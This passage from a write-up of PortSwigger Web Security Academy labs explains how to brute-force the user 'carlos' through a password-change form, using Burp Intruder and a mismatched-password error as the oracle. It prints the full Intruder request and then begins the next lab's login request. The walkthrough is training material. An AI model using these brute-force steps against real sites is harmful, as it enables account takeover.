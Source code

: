 As you can see we pass our username with current-password, new-password-1, and new-password-2. If we change the username with `carlos` they redirect us back to `/login` but if we give username `wiener` and current-password to our correct password but didn't match the `new-password-1` and `new-password-2` they throw an error `New password doesn't match!`. But if we match the new password but the current password is incorrect after some try they will lock our account for some time.

We can brute force another user's password by sending this request to the intruder and changing the username to `carlos` and placing the payload position into the current password for the new-password-1 and new-password-2 we add two different strings. Use simple List as an attack type Load your password list in the Payloads section and start the attack using this we can successfully brute-force the password because one request result would have the string `New password doesn't match!` and that is the password for carlos user. The Intruder request looks like the following.

```
POST /my-account/change-password HTTP/2
Host: 0a89004203b5bc15c1d13a1c004f00b7.web-security-academy.net
Cookie: session=sgvuafVBNQR4kAGGv53iAJJ65xTpQDps; session=dH6juRwz0MxHex78RYe18HDD4scLi7h3
Content-Length: 76
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a89004203b5bc15c1d13a1c004f00b7.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

username=carlos&current-password=§Payload-Position§&new-password-1=pet&new-password-2=err
```

filter your request with request sizes and you will see one request that has a different request size. Note that password and log in using that password and solve the lab.

##### LAB #13: Broken brute-force protection, multiple credentials per request

Lab URL: https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request

Victim's Username: `carlos`

This lab has a login functionality using username and password and if any of these are incorrect they throw an error `incorrect username or password.` if we made too many incorrect logins they block our ip and we cannot make any new login request for 1 min.

The login request looks like the following.

```
POST /login HTTP/2
Host: 0a34000c04639f79c10c5d290037000b.web-security-academy.net
Cookie: session=r62J2HxPkMgcf3G6pTiFbg5PfKSaD3bc
Content-Length: 40
Sec-Ch-Ua: "Chromium";v="111", "Not(A:Brand";v="8"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: https://0a34000c04639f79c10c5d290037000b.web-security-academy.net

{"username":"wiener","password":"peter"}
```
